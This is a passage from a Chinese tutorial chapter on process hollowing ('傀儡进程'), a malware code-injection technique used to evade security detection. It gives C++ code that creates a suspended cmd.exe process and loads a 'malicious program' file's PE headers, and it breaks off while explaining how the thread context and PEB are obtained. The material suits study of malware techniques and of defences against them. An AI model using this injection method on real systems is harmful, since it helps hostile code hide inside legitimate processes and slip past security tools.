 

# 15.进程镂空注入

## 简介

进程镂空（Process Hollowing），又称为“傀儡进程”，是一种恶意软件（malware）利用的代码注入技术。它主要用于将恶意代码注入到合法进程中，以规避安全检测、提高恶意代码执行的隐蔽性和稳定性



## 实现思路

### 1.创建挂起进程

创建一个新的目标进程（这里是cmd.exe），并将其创建为挂起状态，这样它的主线程不会立即执行

```cpp
BOOL bRet = CreateProcessA(
    NULL,
    (LPSTR)"cmd",
    NULL,
    NULL,
    FALSE,
    CREATE_SUSPENDED,
    NULL,
    NULL,
    &si,
    &pi);
```



### 2.读取恶意程序的内容

```cpp
//读取恶意程序的内容至本进程内存中
hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
CloseHandle(hFile);

//获取恶意程序的文件头信息(Dos头和Nt头)
pDosHeaders = (PIMAGE_DOS_HEADER)FileImage;  //获取Dos头
pNtHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)FileImage + pDosHeaders->e_lfanew); //获取NT头
```



### 3.获取挂起进程的线程上下文和映像基址

在挂起创建的进程中，`EBX`（在x86架构下）和`RDX`（在x64架构下）寄存器通常用于存储指向`PEB`（进程环境块）的指针。`PEB`是一个包含进程相关信息的数据结构，例如映像基地址、操作系统版本等。
